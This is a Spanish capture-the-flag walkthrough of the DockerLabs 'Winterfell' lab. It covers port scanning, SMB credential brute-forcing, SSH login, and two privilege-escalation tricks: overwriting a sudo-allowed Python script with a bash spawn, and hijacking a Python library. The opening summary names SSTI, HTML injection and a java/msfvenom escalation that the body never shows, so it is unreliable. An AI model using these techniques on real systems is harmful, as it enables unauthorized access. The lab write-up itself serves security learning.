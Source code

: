 # Máquina Winterfell

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/Qaky0DoJ#AfyxhrLvz8n_Kxefe-61c5n81T9CqtGeU_Ybk5Xv0bA)

![imagen](https://github.com/user-attachments/assets/7c675fe8-f26f-4fcf-bed4-ec3efa1f1ada)

- **Nombre de la Máquina:** Winterfell
- **Sistema Operativo:** Linux
- **Dificultad:** Easy
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
  - **HTML Injection:** Permite ejecutar código HTML malicioso en la página web de Pinguinazo.
  - **Server-Side Template Injection (SSTI):** Aprovechada para ejecutar comandos en el servidor mediante plantillas mal configuradas.
- **Escalada de Privilegios:**
  - Aprovechamiento de `sudo java` para ejecutar código como root sin autenticación, utilizando un archivo JAR malicioso generado con `msfvenom`.

## Reconocimiento y Enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina objetivo para identificar los puertos abiertos.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/d42ed633-04c9-4bd1-97ef-8a5e3ffb2a7d)

Nos muestra que los puertos 22, 80, 139 y 445 están abiertos. Realizamos un análisis más detallado para determinar qué servicios se están ejecutándose en los puertos.

```bash
sudo nmap -p 22,80,139,445 -sCV 172.17.0.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/3b46ac8d-48f8-48fb-b9c1-09bb75bb4eb1)

### Puerto 80 HTTP
Lanzamos un `whatweb` para ver que servicios corren en el http.

![imagen](https://github.com/user-attachments/assets/40bd02eb-28b7-4971-98c0-a29a360f079d)

Podemos observar tres nombres de usuarios posibles nada mas entrar en la web, así que los guardaremos en un archivo llamado names.txt

![imagen](https://github.com/user-attachments/assets/6ee9f3c1-5582-4431-a97b-42d49561e9ae)

```bash
nano names.txt
jon
Arya
Daenerys
```

Seguimos investigando haciendo fuerza bruta usando gobuster para tratar de encontrar directorios.

```bash
sudo gobuster dir -u 'http://172.17.0.2/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php,html,txt
```

![imagen](https://github.com/user-attachments/assets/2f62d610-bfa9-45f1-bd3a-adff678889e4)

Vemos que encontramos un directorio llamado `/dragon/` y dentro hay un archivo llamado `EpisodiosT1` el cuál contiene un texto que dice lo siguiente:

![imagen](https://github.com/user-attachments/assets/2af02080-b513-4d83-a16f-5257c89826f3)

```txt
Estos son todos los Episodios de la primera  temporada de Juego de tronos.
Tengo la barra espaciadora estropeada por lo que dejare los nombres sin espacios, perdonad las molestias

seacercaelinvierno
elcaminoreal
lordnieve
tullidosbastardosycosasrotas
elloboyelleon
unacoronadeoro
ganasomueres
porelladodelapunta
baelor
fuegoyhielo
```

Parecen ser posibles contraseñas así que me las guardaré en un txt llamado passwords.txt

### Puerto 445 SMB
Enumerando el servicio smb vemos que existe un recurso compartido llamado `shared`.

![imagen](https://github.com/user-attachments/assets/2856af9e-07e0-412e-8a7b-716563199339)

Realizo un ataque de fuerza bruta con los nombres y contraseñas enumeradas por si cabe la posibilidad de ue sean las credenciales para acceder a los recursos compartidos.

```bash
crackmapexec smb 172.17.0.2 -u names.txt -p passwords.txt
```

Resultado:
  - jon
  - seacercaelinvierno

Accedemos con el comando smblient, y nos descargamos el único archivo que existe.

```bash
smbclient -U 'jon' //172.17.0.2/shared
get proteccion_del_reino
```

![imagen](https://github.com/user-attachments/assets/91698fef-98d1-4382-bead-de8837b31c67)

![imagen](https://github.com/user-attachments/assets/b436fffe-b77a-41a8-95e4-67f515b61bfb)

El texto nos da una contraseña cifrada en base64, por lo que vamos a descifrarla:

```bash
echo 'aGlqb2RlbGFuaXN0ZXI=' | base64 -d
```

![imagen](https://github.com/user-attachments/assets/032a7f08-216a-44cc-bd3c-b6336fe1f1c6)

Ya tenemos unas credenciales para acceder vía ssh, así que probaremos.

```bash
ssh jon@172.17.0.2
hijodelanister
```

![imagen](https://github.com/user-attachments/assets/880c5493-234c-43f9-a8cb-c1f73e2045e4)

## Escalada de privilegios a `aria`
Una vez dentro somos `jon`, ejecutamos el comando `sudo -l` y vemos que podemos ejecutar con python3 el script /home/jon/.mensaje.py siendo usuario `aria`.

![imagen](https://github.com/user-attachments/assets/e482a219-3b43-4375-b7b8-c7fe3bf00ddf)

### Primera forma de escalar a `aria`.
Podemos hacer la escalada de varias maneras y una de ellas sería borrar el script y volver a crearlo pero con un comando para otorgarnos una bash.

```bash
rm .mensaje.py
nano .mensaje.py
```

```python
import os

os.system("/bin/bash")
```

Otorgamos permisos de ejecución con el comando `chmod +x .mensaje.py` y a continuación ejecutamos el script con el usuario `aria` y listo, abremos escalado al usuario `aria`.

```bash
sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py
```

![imagen](https://github.com/user-attachments/assets/9cfe112c-ceef-41d8-ad80-f4e02cd5ef71)

### Segunda forma de escalar a `aria`.
La otra forma sería hacer un [Library Hijacking](https://deephacking.tech/path-hijacking-y-library-hijacking/) usando la librería hashlib de python ya que es la primera que se importa en el script.

![imagen](https://github.com/user-attachments/assets/798b969c-ff8b-496d-8bdc-c94ddd6f2322)

```html
Si nos fijamos, el primer sitio donde python comprueba de forma por defecto la existencia de la librería es en ' ', esto significa la ruta actual.
Por lo que simplemente vamos a crear un archivo que se llame hashlib.py en la ruta actual.
```

![imagen](https://github.com/user-attachments/assets/df634ba1-a786-49a5-acf6-0ed3d9d62aef)

```bash
nano hashlib.py
```

```python
import os

os.system("/bin/bash")
```

Y tan solo haciendo eso ya tendremos también la escalada al usuario `aria`.

![imagen](https://github.com/user-attachments/assets/bc669d3b-b54a-4374-8b5c-d337ff76ccba)
